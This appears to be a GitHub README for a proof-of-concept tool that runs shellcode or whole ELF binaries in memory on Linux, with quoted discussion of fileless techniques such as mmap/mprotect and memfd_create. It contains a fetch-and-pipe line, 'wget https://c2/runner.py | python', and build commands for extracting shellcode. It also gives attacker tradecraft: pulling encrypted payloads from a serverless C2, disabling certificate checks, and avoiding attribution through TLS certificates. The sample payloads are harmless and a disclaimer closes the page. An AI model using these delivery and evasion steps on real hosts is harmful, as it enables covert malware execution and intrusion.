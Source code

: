 # Linux in-memory shellcode runner proof-of-concept
1. main.py runs pure x86 64-bit shellcode to print the number 42 as a result from EAX
2. new.py runs a ELF binary with only the .text section that prints Hello World to the screen (there is a null-terminator error in the code, just add \0 into the end of the string)
3. memfd_loader uses Adam Cornelissen's suggestion using a full ELF loader running in a first stage loader

For all three options, you can use a python script or for #3, add a http library in C to remotely retrieve the encrypted shellcode from a serverless C2 to run the decrypted payload. If you do this, make sure you disable verification of self-signed certificates or the request will fail. Free signed certificates are a dime in a dozen and can get revoked in cyberattack campaigns pretty quickly or attributed to specific threat actors so you don't want to burn a legitimate SSL/TLS cert.

# Original Post

"I feel that this topic is underexplored, but a lot of malware can be executed entirely in memory in Linux as well. This happened far before we all started using Powershell + .NET + CLR managed/x86 unmanaged runners for Windows/NT Kernel Machines.

All you need, on Linux hosts, is python installed with ctypes, which usually comes with a python installation. In some cases, stripped down versions of python is installed that may not have ctypes, but for most desktop machines ctypes is available to run shellcode runners on Linux entirely in memory.

So how is this invoked remotely?

1. Download from a remote C2 the script with the shellcode with wget/curl
2. Pipe it into Python, wget https://c2/runner.py | python

It's way easier to grab shellcode out of a ELF using objdump after gcc with specific compilation flags to grab the machine code out of the .text section, and because this isn't memory corruption but a staged loader command, it'll launch.

This isn't that significant to experienced attackers but many documented attackers underutilize this trick. Or spawn subprocesses in python that continues to enumerate and evaluate the infected host to use logic to execute additional stages."

# Adam's Comment

Good stuff. How about; Anonymous mmap → mprotect → function pointer (ctypes-like core). The mapping is anonymous (fd = −1). No pathname in /proc/<pid>/maps, but blocked by W^X policies (MemoryDenyWriteExecute, PaX/SELinux execmem).

Or FFI buffers (cffi/libffi) + mprotect. Allocate a raw byte buffer through FFI; obtain its address; invoke libc.mprotect(addr, len, PROT_READ|PROT_EXEC); cast buffer address to void(*)() and call. The buffer lives on the heap; only page permissions change. No file artifact.

memfd_create + in-memory ELF + fexecve (new process, no file), or, memfd_create + in-memory .so + dlopen("/proc/self/fd/<n>", …). This is not “inject bytes and call a function.” It’s loading and running a complete ELF program in a new process without touching disk. Not exactly like ctypes, more like file-descriptor backed ELF loaders, not raw shellcode tricks.

# Using Method 2, executing .text section

nasm -f elf64 helloworld.asm -o helloworld.o
ld -o helloworld.elf helloworld.o
objcopy -O binary --only-section=.text helloworld.elf helloworld.bin
xxd -p helloworld.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | xclip -selection clipboard
Copy and paste into the python runner and execute

# Using Method 3, executing a entire ELF file embedded inside a host loader ELF

xxd -i helloworld.elf → turn ELF into C array
Include it in your loader with #include
Compile loader → produces memfd_loader
Run loader → executes ELF in memory
xxd -p + grep -abo '7f454c46' → verify both main and embedded ELF headers

# ⚠️ Legal Disclaimer

**LinuxShellcodeOrELFRunner** is provided **for educational, research, and defensive cybersecurity purposes only**. By accessing or using this repository, you acknowledge and agree to the following:

1. **Intent of Use**
This project is designed to demonstrate techniques related to executing shellcode or ELF binaries on Linux environments. It is intended for **security research, penetration testing in controlled environments, and learning about Linux internals and exploit development**.

2. **No Malicious Use**
You may **not** use any code, scripts, or techniques in this repository to target systems, networks, or users without explicit authorization. Unauthorized use may violate local, national, or international laws.

3. **Assumption of Risk**
All operations performed using this repository are the **sole responsibility of the user**. The author **assumes no liability** for any damage, data loss, or legal consequences arising from its use.

4. **Educational Context**
Techniques shown may be inspired by historical exploits or research tools. They are included purely for learning purposes and should **never be deployed against systems you do not own or have explicit permission to test**.

5. **Compliance**
By using this repository, you confirm that you will comply with all applicable laws and regulations and use this project ethically and responsibly.

---

> ⚠️ **Reminder:** Misuse of offensive security tools can carry severe legal consequences. Use responsibly.
